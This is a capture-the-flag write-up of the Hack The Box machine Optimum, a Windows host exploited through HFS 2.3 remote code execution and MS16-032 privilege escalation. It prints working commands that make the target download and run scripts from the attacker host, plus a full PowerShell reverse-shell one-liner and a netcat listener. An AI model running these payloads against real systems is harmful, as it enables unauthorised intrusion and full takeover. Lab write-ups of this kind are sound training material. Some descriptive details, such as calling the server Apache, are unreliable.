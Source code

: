 ![logo](/logo.png)

# [Optimum- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 18 Mar 2017 as the sixth machine on HTB,Optimum created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *HFS
  *HttpFileserver
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/nmap.png)
```sh
nmap -sV -sC -oA nmap/optimum 10.10.10.8                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 14:58 EAT
Nmap scan report for 10.10.10.8
Host is up (0.31s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
```

looking at the results  we find out that there is 1 ports open and its a `HttpFileServer `and its running an `Apache server`. 

port[80]-  httpd 2.3

so looking at the page [http//:10.10.10.8](http://10.10.10.8) we find there is a login page 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/landingpage.png)

when I try to login with default credential i find out that it fails but when i click at the HttpFileserver 2.3 it redirects to a [rejetto](http://www.rejetto.com/hfs/)

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/rejetto.png)

so we decide to search for the exploit 

# Exploitation

```sh
searchsploit HttpFileServer 2.3
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/searchsploit.png)

as we can see their is an RCE exploit a python script so we examine the file

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/exploit.png)

we then set a pthon server  which will be used to get our exploit to the machine 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/pythonserver.png)
we can see that it exploits with the `%00`  null bytes but this scripts generates for us a url to execute a reverse shell on the machine.

```sh
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/optimumpowershell.ps1')"
```

so we create a powershell reverse shell so that we can be able to execute and get a shell. You can get search shell from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) for multiline and one line from [nishang](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1&ved=2ahUKEwidwsWIy-qHAxV4R_EDHS6ZD-kQjBB6BAguEAE&usg=AOvVaw1G_nxxPwS6B_yCRUM4Sd3U)

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

now we set a listener so as to get the revershell.

```sh
nc -nvlp 1337
```

then we get the  revershell 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/reverse.png)

and we navigate with the python script generated above to the browser to get the shell.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/browser.png)

we can then get the user flag from the user `kostas`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/userflag.png)

now that we get to find the user flag we can now do a privillage escalation to find the root flag 

# Privillage Escalation

Just by looking at the `systeminfo` we get that their are hot fixes that where done to the machine

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/hotfix.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execute if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/sherlork.png)

and it appears that `ms16-032 and some other 2` are vulnerable

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/ms16.png)

so we search for an exploit using searchsploit and we get its vulnerabilty canbe done using different ways 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/searchsploit2.png)

after examining the code we find that it execute from cmd.exe now we find another exploit from [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) which has modification to execte from power shell. We just add the revershell at the end so that we can Invoke from the session again.

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs016.png)
Now after that we set a new listner and we go and execute the from the session with this to get a shell of the `Nt Authority`

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/InvokeMs.ps1')
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs.png)

now after executing that a setting a listner we get root

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/root.png)
now we get the root flag 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Optimum/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------
